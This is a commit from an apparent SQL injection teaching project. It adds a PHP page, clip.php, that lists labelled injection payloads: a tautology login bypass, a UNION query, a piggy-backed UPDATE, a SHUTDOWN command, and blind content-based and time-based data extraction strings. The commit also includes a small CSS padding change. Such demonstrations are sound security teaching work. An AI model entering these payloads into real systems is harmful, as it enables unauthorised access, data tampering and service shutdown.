
After one commit to reelest/sql_injection, a PHP site: page /clip.php in a window 1280 px wide. The commit adds this page. Shown: the top 337 px of the page. Run offline with PHP 8.4, Linux system fonts and the light colour scheme; a stand-in replaces the project's code that opens the database connection.

Commit message:
penultimate commit

```diff
--- /dev/null
+++ b/clip.php
@@ -0,0 +1,28 @@
+<?php
+ include "templates/header.php";
+?>
+</head>
+<body>
+<ul>
+<li>Enter <code>' or 1 = 1 --</code> in the username box to bypass login using tautology sql injection.</li>
+<br/>
+<li>Enter <code>' UNION select userId from users; -- </code> in the usernam3 box to bypass login using UNION sql injection.</li>
+<br/>
+<li>Enter <code>' ; UPDATE users SET uActivity = '2000-01-01' where uUsername='hacker'; -- </code> in the username box to perform piggy-back sql injection.</li>
+<br/>
+<li>Enter <code>' ; SHUTDOWN; -- </code> to execute stored procedure sql injection.
+</li>
+<br/>
+<li>Enter <code>hacker' AND (SELECT SUBSTRING(InfoValue, <span style='color:red'> 1</span>, 1) from users_information P where P.userId = 4) = '<span style='color:red'>c</span>' -- </code> to perform blind content-based sql injection.
+</li>
+<br/>
+<li>Enter <code>hacker' AND (SELECT sleep(5) from users_information P where P.userId = 4 AND SUBSTRING(InfoValue, <span style='color:red'> 1</span>, 1)  = '<span style='color:red'>c</span>') -- </code> to perform blind time-based sql injection.
+</li>
+<br/>
+<li>Enter <code>hacker' OR char(0x64726f70) = 'drop' -- </code> to perform character encoding-based sql injection.
+</li>
+</ul>
+<script src="/templates/copy_code.js"></script>
+<?php
+ include "templates/footer.php";
+?>
--- a/templates/style.css
+++ b/templates/style.css
@@ -7,7 +7,7 @@
 body {
     font-family: Montserrat, Verdana, "Sans Serif";
     color: #333333;
-    padding: 32px 0;
+    padding: 32px;
 }
 table {
     width: 800px;
```
Also changed, not shown: backend/choose_implementation.php (+1 -6 lines), login.php (+17 -13 lines).
